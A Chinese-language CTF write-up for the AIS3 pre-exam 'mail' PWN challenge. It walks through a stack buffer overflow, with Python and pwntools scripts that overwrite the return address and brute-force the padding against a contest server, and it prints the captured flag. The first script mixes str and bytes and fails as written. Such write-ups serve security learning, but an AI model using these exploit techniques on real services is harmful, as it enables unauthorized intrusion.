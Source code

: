 # AIS3 pre-exam 2013: mail

**Category:** PWN  
**Points:** 1  

## Write-up

提供了一個 nc [ip] 連線以及一個用 C 語言編寫的執行檔 [mail](./mail-499178aff98b72de136cb2a9ebd357db0f7ca39940c2fca079016a2f0ce5e319)  

連線成功之後會要求輸入兩個參數  
> reciever:  
content:  
  
接著就直接丟到 IDA 上直接 F5 照妖鏡了，不過問題就接著出現了。  
在 IDA 上雖然可以檢視反編譯過後的原始碼，但始終看不出要如何算 STACK，不過有看到的是目標 Function `reply` 的 address `0x0000000000400796`   

最後就直接透過 GDB 直接衝一波，透過大量塞字串的方式，並查看 REP 覆蓋狀況，最後發現字串長度 836 開始就會覆蓋到 RBP

![gdb](gdb.png)  

接著就很開心的撰寫 Payload  

> **參考:**  
> [緩衝區溢位攻擊之一(Buffer Overflow)](https://medium.com/@ktecv2000/緩衝區溢位攻擊之一-buffer-overflow-83516aa80240)

**Payload:**

```python
#!/usr/bin/python3
# payload.py
import struct
print(("A" * 836 + struct.pack("<Q", 0x0000000000400796)))
```

接著透過 Linux 指令把他 dump 出來  
`payload.py > payload`  

**本機測試(GDB)**  
![payload](paylout_replay.png)  
使用的長度發現有成功的指向 replay 於是就心滿意足了的直接上 nc 測試...

解過卻沒得到 Flag...  
於是想了另一種解法，這應該算是爆破了吧...XD

```python
#!/usr/bin/python3
# main.py
from pwn import *
import struct
ip   = '104.199.235.135'
prot = 2111

for i in range(800, 900):
	r = remote(ip, prot)
	try:
		print(i)
		target = ("A" * i + struct.pack("<Q", 0x0000000000400796))
		print(r.sendline())			#reciever:
		print(r.sendline(target))	#content:
		print(r.recvline())
		print(r.recvline())
		print(r.interactive())
	except:
		print('error')
```
結果長度是 840... 整整只差了 4Byte  
似乎是忘記把 RBP 覆蓋掉

**Flag**  

![flag](flag.png)  

`AIS3{3hY_d0_yOU_Kn0uu_tH3_r3p1Y?!_I_d0nt_3ant_t0_giu3_QwQ}`